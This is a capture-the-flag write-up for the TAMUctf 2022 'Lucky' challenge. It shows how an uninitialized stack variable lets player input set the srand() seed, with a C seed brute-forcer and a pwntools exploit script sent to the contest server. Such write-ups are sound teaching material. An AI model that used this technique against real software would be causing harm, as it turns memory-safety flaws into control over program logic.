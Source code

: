 # Lucky challenge writeup
Lucky was a pwn challenge from the tamuctf 2022. It was a special challenge for me as it didn't involve trivial bugs like stack buffer overflows, format string bugs...etc. 
We were given a binary and its source code which is the following:
```c
#include <stdio.h>
#include <stdlib.h>

void welcome() {
    char buf[16];
    printf("Enter your name: ");
    fgets(buf, sizeof(buf), stdin);
    printf("\nWelcome, %s\nIf you're super lucky, you might get a flag! ", buf);
}

int seed() {
    char msg[] = "GLHF :D";
    printf("%s\n", msg);
    int lol;
    return lol;
}

void win() {
    char flag[64] = {0};
    FILE* f = fopen("flag.txt", "r");
    fread(flag, 1, sizeof(flag), f);
    printf("Nice work! Here's the flag: %s\n", flag);
}

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    welcome();
    srand(seed());

    int key0 = rand() == 306291429;
    int key1 = rand() == 442612432;
    int key2 = rand() == 110107425;

    printf("Key0: %d | key1: %d | key2: %d", key0, key1, key2);
    if (key0 && key1 && key2) {
        win();
    } else {
        printf("Looks like you weren't lucky enough. Better luck next time!\n");
    }
}
```
It basically asks  for an input then initializes the random with a seed (i'll come back to it later) and then compares the values of `key0`, `key1`, `key2`
respectively with `306291429 , 442612432, 110107425`. If all the checks are `true` it prints for us the flag. </br>
After reading source code again and again i was like `this is impossible to solve` since i don't know the seed that generates this sequence `306291429, 442612432, 110107425`.</br>
I opened the binary in gdb, gave it `AAAA` as input and made a breakpoint before the `seed` function exists to try to know how the seed is generated. 
The return value was stored in `eax` so i inspected it with `i r eax` and it was `0x7fff` </br>
![0x7fff](./images/lucky1.png)

At this point i was desperate and about to give up on the challenge. Because i thought that i don't have a control on the `seed` value and since `ASLR` is enabled on the remote system bruteforcing is just impossible. </br>
I opened the binary in gdb again and gave it `"A" * 16` as input this time, made break point in the same place inspected the seed and....boooom!
![0x41414141](./images/lucky2.png)

the seed is equal to `0x414141` which is the hexadecimal representation of `AAA` .</br>
At this point the solution was clear i just need to find the seed which generates that sequence of random numbers and its done. </br>
I got the seed with this:
```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int main(int argc, char *argv[]) {

    unsigned int seq[] = {306291429, 442612432, 110107425};

    for (int i = 0; i < 4294967295; i++) {

        srand(i);
        for (int j = 0; j < 3; j++) {

            if (rand() != seq[j])
                break;

            if (j == 2){
                printf("found seed: %d\n", i);
                printf("Next number: %d\n", rand());
                exit(0);
            }
        }
    }
    return 0;
}
```
After compiling and running it i got this:</br>
![seed](./images/lucky3.png)
Now we have the seed everything is ready to get our flag. I made a small python script to send the seed to the remote server which is:
```python
from pwn import *

context.arch="x86_64"

def conn():
    if args.LOCAL:
        p = process("./lucky")
        return p 
    elif args.REMOTE:
        p = remote("tamuctf.com", 443, ssl=True, sni="lucky")
        return p 
    else:
        exit(0)
        
def main():
    global p 
    p = conn()
    seed = 5649426
    #b"4V\x12" is the hexadecimal representation of the seed 
    payload = b"A" * (15 - len(b"4V\x12"))
    payload += b"\x124V"
    p.sendlineafter("name: ", payload)
    p.recvline()
    p.recvline()
    p.recvline()
    flag = p.recvline()
    log.info(f"flag: {flag}")
if __name__ == "__main__":
    main()
```
after running it we get the flag:
![flag](./images/lucky4.png)
flag: `gigem{un1n1t14l1z3d_m3m0ry_15_r4nd0m_r1ght}`
